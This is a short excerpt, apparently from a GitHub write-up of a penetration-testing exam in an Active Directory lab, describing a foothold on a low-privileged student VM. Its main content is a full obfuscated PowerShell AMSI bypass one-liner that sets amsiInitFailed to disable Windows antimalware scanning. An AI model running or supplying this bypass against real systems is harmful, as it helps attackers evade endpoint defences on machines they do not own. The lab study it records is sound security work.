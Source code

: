 # Enumeration StudentVM
**Domain Enumeration:**
I started the exam from the student VM machine which is lower privileged account on the current domain:
I have opened the powershell but not able to bypass the defender and not able to turn off the firewall. I 
have done an AMSI bypass and started with the enumeration further on the foothold Machine.
```
AMSI BYPASS: S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; (
Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}"
-f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) )."g`etf`iElD"( (
"{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' 
))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```
